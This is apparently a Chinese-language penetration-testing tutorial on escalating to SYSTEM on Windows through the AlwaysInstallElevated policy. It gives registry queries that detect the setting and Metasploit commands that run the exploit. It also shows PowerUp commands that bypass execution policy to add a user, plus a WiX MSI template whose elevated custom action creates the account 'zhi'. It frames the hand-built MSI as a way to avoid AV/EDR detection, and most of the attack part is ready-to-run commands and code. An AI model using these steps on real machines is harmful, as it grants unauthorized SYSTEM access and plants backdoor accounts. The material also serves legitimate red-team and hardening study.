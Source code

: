 windows 有一个系统进程 MSIEXEC，用于安装 Windows Installer 安装包，AlwaysInstallElevated 是一个组策略配置，如果启用，那么将允许普通用户以 SYSTEM 权限运行 msi 文件进行安装。如果对方机器恰好开启，我们就可以利用此缺陷提权。

注册表查询, 如果两个查询都返回值 0x1，则为用户和计算机启用了 AlwaysInstallElevated，表明系统容易受到攻击。
```bash
# shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# ps
Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```


漏洞利用：
MSF 的 exploit/windows/local/always_install_elevate 模块可以自动完成提权操作，会创建一个随机文件名的 msi 文件，并在提权成功后删除此mai文件，攻击成功会返回 system 权限会话
```bash
getuid
use exploit/windows/local/always_install_elevated
set session 4
run
```
PowerUP 利用
检查注册表的设置：
```powershell
powershell -exec bypass -Command "& {import-module .\powerup.ps1; get-registryalwaysinstallelevated}"
```

生成新的账户：
```powershell
powershell -exec bypass -Command "& {import-module .\powerup.ps1; write-useraddmsi}"
```

Metasploit可以生成 MSI 类型的载荷，但很容易被 AV/EDR 所检测。所以我们可以手动创建 MSI 包裹文件。
我们可以使用工具 wix (https://github.com/wixtoolset/wix3) 来将包含二进制文件或者任意命令的模板 (https://github.com/KINGSABRI/MSI-AlwaysInstallElevated) 进行打包然后安装。
我们可以直接将要运行的载荷或者命令包含在里面，我们尝试执行添加新用户的命令，模板内容如下：

```xml
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
    <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="23e23deeqwddeweqwde" Version="0.0.1" Manufacturer="Test1" Language="1033">
        <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" />
        <Media Id='1' />
        <Directory Id="TARGETDIR" Name="SourceDir">
            <Directory Id="ProgramFilesFolder">
                <Directory Id="INSTALLLOCATION" Name="Example">
                    <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222" KeyPath="yes"></Component>
                </Directory>
            </Directory>
        </Directory>
        <Feature Id="DefaultFeature" Level="1">
            <ComponentRef Id="ApplicationFiles" />
        </Feature>

        <CustomAction 
            Id="Shell" 
            Execute="deferred"
            Directory="TARGETDIR" 
            Impersonate="no" 
            ExeCommand="net user zhi 123.com /add" 
            Return="check" 
        />

```
